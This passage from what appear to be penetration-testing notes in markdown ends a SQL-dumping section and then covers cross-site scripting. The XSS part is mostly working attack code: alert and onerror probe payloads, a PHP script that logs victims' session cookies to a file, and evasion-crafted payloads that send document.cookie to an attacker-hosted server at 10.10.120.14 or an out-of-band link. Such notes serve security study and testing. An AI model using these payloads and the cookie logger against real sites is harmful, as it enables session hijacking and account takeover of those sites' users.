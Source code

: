    show tables;

    select * from users;

    select * from all_sessions;
    ```

## XSS

* For XSS (cross-site scripting) attacks to result in session cookie leakage, session cookies should be carried in all HTTP requests and they should be accessible by JS code (```HTTPOnly``` attribute should be missing)

* We can start by testing XSS payloads with event handlers like ```onload```, ```onerror``` or ```onmouseover```:

  ```js
  "><img src=x onerror=prompt(document.domain)>

  "><img src=x onerror=confirm(1)>

  "><img src=x onerror=alert(1)>
  // these payloads can be tested in all available fields
  ```

* We need to test input fields with all possible payloads, and also test all app functionality to execute the payload; in given example, the 'Share' functionality triggers the payload ```"><img src=x onerror=alert(1)>``` (```HTTPOnly``` is 'off' in this case)

* Simple cookie-logging script ('log.php') to obtain a victim's session cookie - this waits for anyone to request ```?c=+document.cookie```, then it parses the cookie:

  ```php
  <?php
  $logFile = "cookieLog.txt";
  $cookie = $_REQUEST["c"];

  $handle = fopen($logFile, "a");
  fwrite($handle, $cookie . "\n\n");
  fclose($handle);

  header("Location: http://www.google.com/");
  exit;
  ?>
  ```

* Host the script using ```php -S 10.10.120.14:8000```; for the vulnerable field found above, we can use a payload like this:

  ```js
  <style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://10.10.120.14:8000/log.php?c=' + document.cookie;"></video>
  // the payload has to be crafted like this for evasion

  // if HTTPS payload was required
  <h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
  // we can use something like interactsh here for OOB communication
  ```
